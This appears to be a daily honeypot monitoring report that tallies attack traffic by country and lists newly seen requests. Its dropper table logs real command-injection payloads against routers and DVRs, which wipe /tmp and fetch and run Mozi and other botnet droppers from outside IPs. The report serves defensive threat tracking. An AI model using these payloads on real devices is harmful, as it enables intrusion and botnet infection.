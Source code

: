 ```yaml
---
title: "Report: 2025-08-02 "
date: 2025-08-02
desciption: "Report: 2025-08-02" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-02 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 468 requests were recorded during the day, originating from 7 different countries, with a peak of 179 requests coming from DE.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 41.43.119.201  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
| 156.215.123.74 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
| 182.180.50.199 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
| 41.37.31.110   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
| 42.227.204.26  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.227.204.26:44131/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                 |
| 103.93.93.182  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                        |
| 87.121.79.165  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20lol.sh%3B%20tftp%20-g%20-r%20lol.sh%20-l%20lol.sh%20141.11.62.4%3B%20chmod%20777%20lol.sh%3B%20sh%20lol.sh%3B%20rm%20lol.sh%3B%20wget%20http%3A%2F%2F141.11.62.4%2Flol.sh%3B%20chmod%20777%20lol.sh%3B%20sh%20lol.sh%3B%20rm%20lol.sh%3B%20ftpget%20-v%20141.11.62.4%20%20lol.sh%3B%20chmod%20777%20lol.sh%3B%20sh%20lol.sh%3Brm%20-rf%20lol.sh HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  45 |                     1 | GET /nmaplowercheck1754166875 HTTP/1.1                     |
|  48 |                     1 | GET /VOAv HTTP/1.1                                         |
|  53 |                     1 | GET /nmaplowercheck1754166876 HTTP/1.1                     |
|  58 |                     1 | GET /NmapUpperCheck1754166876 HTTP/1.1                     |
|  59 |                     1 | GET /NmapUpperCheck1754166875 HTTP/1.1                     |
|  63 |                     1 | GET /Nmap/folder/check1754166875 HTTP/1.1                  |
|  64 |                     1 | GET /Nmap/folder/check1754166876 HTTP/1.1                  |
| 234 |                     1 | \x00\x0E\x08\x0C\xE5!\xAA\xA7a\x1B\x0B\x00\x00\x00\x00\x00 |
| 235 |                     1 | \x00\x0E8\x0C\xE5!\xAA\xA7a\x1B\x0B\x00\x00\x00\x00\x00    |
| 236 |                     1 | \x00\x0E\x08\xE5+ZQJ\x9F^\xD1\x00\x00\x00\x00\x00          |
| 237 |                     1 | \x00\x0E8\xE5+ZQJ\x9F^\xD1\x00\x00\x00\x00\x00             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   179 | DE                 |
|  1 |                    97 | US                 |
|  2 |                    33 | GB                 |
|  3 |                    19 | SC                 |
|  4 |                    17 | PL                 |
|  5 |                    17 | BG                 |
|  6 |                     9 | NL                 |
|  7 |                     9 | UA                 |
|  8 |                     9 | RO                 |
|  9 |                     8 | VN                 |
| 10 |                     7 | CN                 |
| 11 |                     7 | MU                 |
| 12 |                     6 | LT                 |
| 13 |                     5 | CA                 |
| 14 |                     5 | SG                 |
| 15 |                     4 | ZA                 |
| 16 |                     4 | IR                 |
| 17 |                     3 | KZ                 |
| 18 |                     3 | RU                 |
| 19 |                     3 | EG                 |
| 20 |                     2 | GH                 |
| 21 |                     2 | MN                 |
| 22 |                     2 | IN                 |
| 23 |                     2 | BR                 |
| 24 |                     2 | AR                 |
| 25 |                     2 | AU                 |
| 26 |                     2 | HK                 |
| 27 |                     2 | BE                 |
| 28 |                     1 | PK                 |
| 29 |                     1 | TH                 |
| 30 |                     1 | CH                 |
| 31 |                     1 | KR                 |
| 32 |                     1 | ID                 |
| 33 |                     1 | EE                 |
| 34 |                     1 | FR                 |
| 35 |                     1 | JP                 |
